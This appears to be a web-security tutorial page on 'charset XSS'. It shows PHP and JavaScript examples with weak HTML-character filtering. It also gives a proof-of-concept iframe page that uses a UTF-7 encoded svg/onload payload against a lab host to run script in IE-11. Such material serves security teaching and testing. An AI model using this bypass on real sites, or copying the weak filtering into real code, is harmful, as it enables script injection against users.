 ```yaml
---
title: Charset XSS
---
```


# Charset XSS

Charset XSS is useful in cases where application filters HTML special characters like `<` & `>`, You might have seen these characters converting back into `&gt;` & `&lt;` respectively.

For example consider the following codes

```text

<?php
if(isset($_GET['xss'])) {
    echo htmlspecialchars($_GET['xss']);
}
?>
```

and similarly for DOM XSS code

```text
<html>
    <head>
        <title>test page</title>
    </head>
    <body>
        <script>
            var bad_string = window.location.hash.substring(1);
            var regex = /<\>/gi;
            var good_string = bad_string.replace(regex,'')
            document.write(good_string);
        </script>
    </body>
</html>
```

using charset XSS it is possible to bypass html special characters filtration

## Requirements

* Target site not implemented charset
* Target site implemented the wrong charset

## Example works in IE-11

Consider the same DOM XSS code

{{< details xss.html open >}}

```text
<html>
    <head>
        <title>test page</title>
    </head>
    <body>
        <script>
            var bad_string = window.location.hash.substring(1);
            var regex = /<\>/gi;
            var good_string = bad_string.replace(regex,'')
            document.write(good_string);
        </script>
    </body>
</html>
```
{{< /details >}}

Since this page does not have any charset defines that means it fulfil the requirements for charset XSS. In order to do it, we will create a document with UTF-7 encoding and load the vulnerable URL in the iframe.

{{< details iframe.html open >}}
```text
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-7">
</head>
<body>
    <iframe src="http://lab.com:8888/common/c.html#<p>+ADw-svg/onload+AD0-alert(1444444)+AD4-</p>" frameborder="1"
        height="300" width="500"></iframe>
</body>
</html>
```

{{< /details >}}

As soon as we access iframe.html we triage javaScript code execution since xss.html doesn't have any charset defined and hence browser inherit top frame's charset which is UTF-7.

